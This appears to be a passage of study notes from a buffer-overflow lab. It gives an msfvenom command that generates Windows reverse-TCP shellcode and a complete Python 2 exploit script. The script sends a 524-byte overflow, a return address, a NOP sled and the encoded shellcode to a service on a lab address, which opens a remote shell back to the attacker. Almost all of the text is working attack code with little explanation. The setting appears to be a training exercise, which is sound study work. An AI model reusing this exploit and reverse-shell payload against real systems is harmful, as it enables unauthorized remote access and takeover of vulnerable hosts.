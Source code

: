 #### Reverse Shell

- msfvenom
- flag `-b` means generate shellcode without the specificied bad chars

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f python -a x86 -b '\x00'
```
- python script
- Important the above code is running with python not python3 like previous scripts

```python
import socket,sys



#msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=4444 -f python -a x86 -b '\x00'

buf =  b""
buf += b"\xbb\x4c\x6c\xb3\x79\xd9\xeb\xd9\x74\x24\xf4\x5a\x33"
buf += b"\xc9\xb1\x52\x83\xea\xfc\x31\x5a\x0e\x03\x16\x62\x51"
buf += b"\x8c\x5a\x92\x17\x6f\xa2\x63\x78\xf9\x47\x52\xb8\x9d"
buf += b"\x0c\xc5\x08\xd5\x40\xea\xe3\xbb\x70\x79\x81\x13\x77"
buf += b"\xca\x2c\x42\xb6\xcb\x1d\xb6\xd9\x4f\x5c\xeb\x39\x71"
buf += b"\xaf\xfe\x38\xb6\xd2\xf3\x68\x6f\x98\xa6\x9c\x04\xd4"
buf += b"\x7a\x17\x56\xf8\xfa\xc4\x2f\xfb\x2b\x5b\x3b\xa2\xeb"
buf += b"\x5a\xe8\xde\xa5\x44\xed\xdb\x7c\xff\xc5\x90\x7e\x29"
buf += b"\x14\x58\x2c\x14\x98\xab\x2c\x51\x1f\x54\x5b\xab\x63"
buf += b"\xe9\x5c\x68\x19\x35\xe8\x6a\xb9\xbe\x4a\x56\x3b\x12"
buf += b"\x0c\x1d\x37\xdf\x5a\x79\x54\xde\x8f\xf2\x60\x6b\x2e"
buf += b"\xd4\xe0\x2f\x15\xf0\xa9\xf4\x34\xa1\x17\x5a\x48\xb1"
buf += b"\xf7\x03\xec\xba\x1a\x57\x9d\xe1\x72\x94\xac\x19\x83"
buf += b"\xb2\xa7\x6a\xb1\x1d\x1c\xe4\xf9\xd6\xba\xf3\xfe\xcc"
buf += b"\x7b\x6b\x01\xef\x7b\xa2\xc6\xbb\x2b\xdc\xef\xc3\xa7"
buf += b"\x1c\x0f\x16\x67\x4c\xbf\xc9\xc8\x3c\x7f\xba\xa0\x56"
buf += b"\x70\xe5\xd1\x59\x5a\x8e\x78\xa0\x0d\xbb\x7c\xa8\xc2"
buf += b"\xd3\x7e\xac\xcd\x7f\xf6\x4a\x87\x6f\x5e\xc5\x30\x09"
buf += b"\xfb\x9d\xa1\xd6\xd1\xd8\xe2\x5d\xd6\x1d\xac\x95\x93"
buf += b"\x0d\x59\x56\xee\x6f\xcc\x69\xc4\x07\x92\xf8\x83\xd7"
buf += b"\xdd\xe0\x1b\x80\x8a\xd7\x55\x44\x27\x41\xcc\x7a\xba"
buf += b"\x17\x37\x3e\x61\xe4\xb6\xbf\xe4\x50\x9d\xaf\x30\x58"
buf += b"\x99\x9b\xec\x0f\x77\x75\x4b\xe6\x39\x2f\x05\x55\x90"
buf += b"\xa7\xd0\x95\x23\xb1\xdc\xf3\xd5\x5d\x6c\xaa\xa3\x62"
buf += b"\x41\x3a\x24\x1b\xbf\xda\xcb\xf6\x7b\xea\x81\x5a\x2d"
buf += b"\x63\x4c\x0f\x6f\xee\x6f\xfa\xac\x17\xec\x0e\x4d\xec"
buf += b"\xec\x7b\x48\xa8\xaa\x90\x20\xa1\x5e\x96\x97\xc2\x4a"


payload = "A"*524
payload = payload + "\xF3\x12\x17\x31"
nop = 20*"\x90"
payload = payload + nop + buf

try:
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(('10.0.2.254',9999))
    s.recv(1024)
    s.send(payload)
    s.close()
except Exception as ex:  
    print ex
    print "[X] Connection error"
    sys.exit()
```
